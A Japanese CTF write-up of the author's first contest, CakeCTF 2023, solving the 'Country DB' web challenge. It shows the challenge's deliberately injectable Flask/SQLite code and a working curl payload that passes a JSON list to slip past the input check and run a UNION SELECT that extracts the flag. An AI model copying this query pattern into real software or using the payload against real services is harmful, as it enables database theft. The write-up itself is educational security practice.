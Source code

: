# CakeCTF 2023参加記

初めてCTFの大会に`fixme`という名前で参加した。

CTFは一人でのんびり勉強を進めているので「どれか1問解ければ御の字」という姿勢で臨み無事に目標を達成できた。

![01](./img/20231112-01.png)

![02](./img/20231112-02.png)

## Country DB

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```

「`db_search`関数でSQLiをする」という意図を感じ取ったのでその周辺を調べる。

```python
cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
```

最初`req = flask.request.get_json()`が怪しいのかと思ってソースコードを調べたが特に怪しい箇所もなさそうだった。

https://github.com/pallets/werkzeug/blob/3.0.1/src/werkzeug/wrappers/request.py#L576-L629

そのため後続にある値をチェックする処理に怪しい場所があるんだなと判断して考えていたら`len`関数を使っているので「`code`の値がlistでも通るのでは」ということに気づく。この時点で既に2日目になっていた。

そしてPythonの[f-string](https://docs.python.org/ja/3.8/tutorial/inputoutput.html#tut-f-strings)に直接listを入れてみるとそのまま値が入りそうなことにも気づく。

![03](./img/20231112-03.png)



後は`union`句でいつものようにインジェクションのコードを組み立てる。


```
curl -H 'Content-Type: application/json' \
    --data-raw '{"code":[") union select flag from flag limit 1 -- -",""]}' \
    'http://countrydb.2023.cakectf.com:8020/api/search'
```


`CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}`

## 感想
解法を思い付くまで時間がかかり、発想力が足りていないことを痛感。勉強へのモチベーションが上がった。